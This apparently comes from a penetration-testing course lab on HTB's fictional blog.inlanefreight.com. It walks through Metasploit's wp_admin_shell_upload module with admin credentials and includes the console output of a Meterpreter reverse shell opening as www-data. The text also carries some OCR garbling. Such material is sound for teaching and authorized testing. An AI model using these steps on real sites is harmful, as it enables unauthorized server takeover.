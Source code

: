 ﻿## Automating WordPress Exploitation

We can use theÂ Metasploit Framework (MSF)Â to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly startÂ `MSF`Â by issuing the following command:

#### Starting Metasploit Framework


```shell-session
smoothment@htb[/htb]$ msfconsole
```

---

To obtain the reverse shell, we can use theÂ `wp_admin_shell_upload`Â module. We can easily search for it insideÂ `MSF`:

#### MSF Search

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The numberÂ `0`Â in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

#### Module Selection


```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

---

#### Module Options

Each module offers different settings options that we can use to assign precise specifications toÂ `MSF`Â to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

---

## Exploitation

After using theÂ `set`Â command to make the necessary modifications, we can use theÂ `run`Â command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wpâ€”content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: wwwâ€”data (33)
```


